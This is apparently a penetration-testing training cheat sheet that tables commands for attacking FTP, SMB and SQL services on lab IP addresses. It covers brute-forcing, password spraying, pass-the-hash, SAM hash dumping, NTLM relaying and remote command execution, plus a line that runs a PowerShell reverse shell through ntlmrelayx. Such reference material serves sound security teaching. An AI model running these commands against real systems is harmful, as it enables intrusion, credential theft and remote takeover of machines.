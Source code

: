 Attacking FTP

|   |   |
|---|---|
|Command|Description|
|ftp 192.168.2.142|Connecting to the FTP server using the ftp client.|
|nc -v 192.168.2.142 21|Connecting to the FTP server using netcat.|
|hydra -l user1 -P /usr/share/wordlists/rockyou.txt [ftp://192.168.2.142](ftp://192.168.2.142)|Brute-forcing the FTP service.|

Attacking SMB

|   |   |
|---|---|
|Command|Description|
|smbclient -N -L //10.129.14.128|Null-session testing against the SMB service.|
|smbmap -H 10.129.14.128|Network share enumeration using smbmap.|
|smbmap -H 10.129.14.128 -u user -p password|To provide credentials to logon via smbmap|
|smbmap -H 10.129.14.128 -r notes|Recursive network share enumeration using smbmap.|
|smbmap -H 10.129.14.128 --download "notes\note.txt"|Download a specific file from the shared folder.|
|smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"|Upload a specific file to the shared folder.|
|rpcclient -U'%' 10.10.110.17|Null-session with the rpcclient.|
|./enum4linux-ng.py 10.10.11.45 -A -C|Automated enumeratition of the SMB service using enum4linux-ng.|
|crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'|Password spraying against different users from a list.|
|impacket-psexec administrator:'Password123!'@10.10.110.17|Connect to the SMB service using the impacket-psexec.|
|crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec|Execute a command over the SMB service using crackmapexec.|
|crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users|Enumerating Logged-on users.|
|crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam|Extract hashes from the SAM database.|
|crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE|Use the Pass-The-Hash technique to authenticate on the target host.|
|impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146|Dump the SAM database using impacket-ntlmrelayx.|
|impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>|Execute a PowerShell based reverse shell using impacket-ntlmrelayx.|

Attacking SQL Databases

|   |   |
|---|---|
|Command|Description|
|mysql -u julio -pPassword123 -h 10.129.20.13|Connecting to the MySQL server.|
|sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30|Connecting to the MSSQL server.|
|sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h|Connecting to the MSSQL server from Linux.|
|sqsh -S 10.129.203.7 -U .[\\julio](file://julio) -P 'MyPassword!' -h|Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server.|
|mysql> SHOW DATABASES;|Show all available databases in MySQL.|
|mysql> USE htbusers;|Select a specific database in MySQL.|
|mysql> SHOW TABLES;|Show all available tables in the selected database in MySQL.|
|mysql> SELECT * FROM users;|Select all available entries from the "users" table in MySQL.|